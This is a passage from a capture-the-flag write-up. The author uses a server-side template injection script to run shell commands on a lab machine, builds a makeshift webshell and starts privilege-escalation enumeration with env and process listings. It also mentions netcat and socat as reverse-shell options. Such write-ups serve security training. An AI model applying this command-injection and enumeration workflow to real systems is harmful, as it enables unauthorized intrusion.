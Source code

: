 However the flag is accessible!

### Getting a shell

Netcat is installed by the `-e` flag is disabled. Also it looks like pipes don't work:

```shell
python payloads/ssti.py 'echo -n aGV5aGV5 | base64 -d'
# <h2 class="searched">You searched for: aGV5aGV5 | base64 -d</h2>
python payloads/ssti.py 'echo -n aGV5aGV5 > img/test'
# <h2 class="searched">You searched for: aGV5aGV5 &gt; img/test</h2>
```

Since even `socat` was absent I felt it would be less efforts to improve my script and make it into a mock webshell.

```shell
python payloads/ssti.py 'id'
# uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
python payloads/ssti.py 'ls -lah'
# total 40K
# drwxr-xr-x  2 woodenk logs 4.0K Jul 15 09:02 .
# drwxrwxrwt 16 root    root 4.0K Jul 15 09:46 ..
# -rw-------  1 woodenk logs  32K Jul 15 12:54 878
```

Good enough for me.

## Root

### Manual enumeration

Before running more serious tools:

```shell
groups
# logs woodenk
env
# SHELL=/bin/bash
# JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64/bin/java
# SUDO_COMMAND=/usr/bin/java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
# SUDO_USER=root
# LOGNAME=woodenk
# MAVEN_CONFIG_HOME=/home/woodenk/.m2
# MAVEN_VERSION=3.8.3
# MAVEN_HOME=/opt/maven
# SHLVL=2
ps auxf
# USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
# root           1  0.0  0.5 102364 11124 ?        Ss   09:02   0:02 /sbin/init maybe-ubiquity
# root         462  0.0  0.6  35696 13944 ?        S<s  09:02   0:00 /lib/systemd/systemd-journald
# root         491  0.0  0.2  22476  5828 ?        Ss   09:02   0:00 /lib/systemd/systemd-udevd
# root         612  0.0  0.8 214596 17944 ?        SLsl 09:02   0:01 /sbin/multipathd -d -s
# systemd+     634  0.0  0.3  90872  6144 ?        Ssl  09:02   0:01 /lib/systemd/systemd-timesyncd
# root         650  0.0  0.5  47540 10848 ?        Ss   09:02   0:00 /usr/bin/VGAuthService
# root         652  0.1  0.4 237772  8292 ?        Ssl  09:02   0:15 /usr/bin/vmtoolsd
# root         670  0.0  0.2  99896  5896 ?        Ssl  09:02   0:00 /sbin/dhclient -1 -4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0
# root         682  0.0  0.4 239292  9068 ?        Ssl  09:02   0:00 /usr/lib/accountsservice/accounts-daemon
# message+     683  0.0  0.2   7384  4604 ?        Ss   09:02   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
# root         700  0.0  0.1  81956  3784 ?        Ssl  09:02   0:00 /usr/sbin/irqbalance --foreground
# root         703  0.0  0.4 236436  9036 ?        Ssl  09:02   0:00 /usr/lib/policykit-1/polkitd --no-debug
```